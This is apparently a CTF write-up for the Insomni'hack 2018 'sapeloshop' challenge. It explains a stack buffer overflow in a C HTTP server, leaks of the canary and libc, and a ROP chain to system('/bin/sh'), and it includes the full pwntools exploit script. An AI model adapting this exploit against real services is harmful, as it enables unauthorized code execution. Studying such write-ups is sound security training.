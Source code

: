 ```yaml
---
layout: post
category: Pwn
title: Insomni'hack teaser 2018 sapeloshop
tags: 
    - kowu
---
```


First of all, I assume that this was not the intended solution for the challenge as it was labeled with `Difficulty: Medium-Hard`.There were multiple bugs (two buffer overflow and a use after free, double free). I opted to solve it the easy way with a good old buffer overflow.

The challenge itself was a handwritten HTTP server in C. You can put items in your shopping cart, increase and decrease their amount, and remove them from the cart. We were provided with the binary and libc, aslr, nx and stack canaries turned on. The bug I exploited was in the POST request handling. Consider following pseudocode:
```c
bool keepalive = true;
while(keepalive) {
    char buf[0x4000];
    int pos;
    pos = read(fd, buf, 0x4000);
    if (!strstr(buf, "keep-alive"))
        keepalive = false;
    if (strstr(buf, "Content-Length"))
        read(fd, &buf[pos], MIN(getcontentlength(buf), 1024));
    dostuff(buf);
}
```
So basically a simple bufferoverflow. But before exploiting we need to leak the stack canary and the libc / proc base address. Wich was pretty easy. As the POST data is reused later, we could just overflow and leak by viewing our shopping cart (GET /cart HTTP/1.1).
![m1](/assets/img/insomni_sapelo.png.png)
The first red area is the HTTP request, second one is POST data. First green square is the stack canary, second a proc pointer and the third one belongs to libc_start_main_ret. If we send the above payload an item will be added to the shopping cart with the name "AAAA[cancary][procpointer]".
By increasing the amount of A's we leak the libc_start_main_ret address as well and have all we need for pwnage! On all requests we set the "keepalive" to true, until we leaked everything and overwrote the stack properly with a simple ropchain (`[pop rdi;ret]["/bin/sh"][system]`). As soon as we set "keepalive" to false the ropchain will trigger system("/bin/sh").

The flag was: `INS{sapeurs_are_the_real_heapsters}`.
Full exploitcode we used, CTF codequality, unreliable:
```python
from pwn import *

r = remote("sapeloshop.teaser.insomnihack.ch", 80)
# r = remote("localhost", 31337)

addr_binsh = 0x18cd57
addr_system = 0x45390
offset_libc = 0x20830   # libc start main ret
offset_proc = 0x2370


def leakall():
    payload = "POST /add HTTP/1.1\r\n" + \
              "Connection: keep-alive\r\n" + \
              "User-Agent: lolololol\r\n" + \
              "Filler: " + "A" * 16283 + "\r\n" + \
              "Content-Length: 0009\r\n" + \
              "\r\n" + \
              "desc=" + "A" * 4
    r.send(payload)
    r.recvuntil("</html>")
    r.send("POST /cart HTTP/1.1\r\n" +
           "Connection: keep-alive\r\n" +
           "User-Agent: lolololol\r\n" +
           "\r\n")
    r.recvuntil("img/AAAA")
    leak = "\x00" + r.recvn(13) + "\x00\x00"
    leak = struct.unpack("<QQ", leak)
    leak_canary = leak[0]
    leak_proc = leak[1] - offset_proc
    r.recvuntil("</html>")

    payload = "POST /add HTTP/1.1\r\n" + \
              "Connection: keep-alive\r\n" + \
              "User-Agent: lolololol\r\n" + \
              "Filler: " + "A" * 16283 + "\r\n" + \
              "Content-Length: 0024\r\n" + \
              "\r\n" + \
              "desc=" + "A" * 19
    r.send(payload)
    r.recvuntil("</html>")
    r.send("POST /cart HTTP/1.1\r\n" +
           "Connection: keep-alive\r\n" +
           "User-Agent: lolololol\r\n" +
           "\r\n")
    r.recvuntil("img/AAAAAAAAAAAAAAAAAAA")
    leak = r.recvn(6) + "\x00\x00"
    leak = struct.unpack("<Q", leak)
    leak_libc = leak[0] - offset_libc
    r.recvuntil("</html>")

    return leak_canary, leak_libc, leak_proc


def pwn():
    cancary, libcbase, procbase = leakall()
    print("canary: {}\nlibc: {}\nproc: {}".format(hex(cancary), hex(libcbase), hex(procbase)))

    print("ropping.")
    ropchain = "A" * 8
    ropchain += struct.pack("<Q", procbase + 0x23d3)  # pop rdi;ret
    ropchain += struct.pack("<Q", libcbase + addr_binsh)  # /bin/sh
    ropchain += struct.pack("<Q", libcbase + addr_system)  # system

    payload = "POST /add HTTP/1.1\r\n" + \
              "Connection: close\r\n" + \
              "User-Agent: lolololol\r\n" + \
              "Filler: " + "A" * 16288 + "\r\n" + \
              "Content-Length: 0048\r\n" + \
              "\r\n" + \
              "desc=AAA" + struct.pack("<Q", cancary) + ropchain
    r.send(payload)
    r.recvuntil("</html>")

    print("zerfickung!")
    r.interactive()


if __name__ == '__main__':
    pwn()

```
